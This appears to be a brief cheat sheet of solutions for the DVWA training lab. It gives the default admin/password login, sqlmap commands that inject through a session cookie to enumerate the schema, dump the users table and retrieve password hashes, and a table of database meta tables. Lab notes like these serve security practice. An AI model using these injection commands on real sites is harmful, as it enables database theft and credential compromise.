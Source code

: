 
# the solutions of dvwa

## default login param

- `admin` , `password`

## table of content

- [the solutions of dvwa](#the-solutions-of-dvwa)
  - [default login param](#default-login-param)
  - [table of content](#table-of-content)
  - [sqlmap](#sqlmap)
  - [sql, meta tables](#sql-meta-tables)

## sqlmap

- basic usage

```sh
sqlmap -u "http://url/..." --cookie="A=1; b=2"
sqlmap -u "http://url/..." --cookie="A=1; b=2" --schema --batch
sqlmap -u "http://url/..." --cookie="A=1; b=2" --dump -T users --batch
sqlmap -u "http://url/..." --cookie="A=1; b=2" --passwords
```

## sql, meta tables

| Engine     | Table name         |
| ---------- | ------------------ |
| SQLite     | sqlite_master      |
| MySQL      | information_schema |
| PostgreSQL | information_schema |
| Oracle     | dba_tables         |
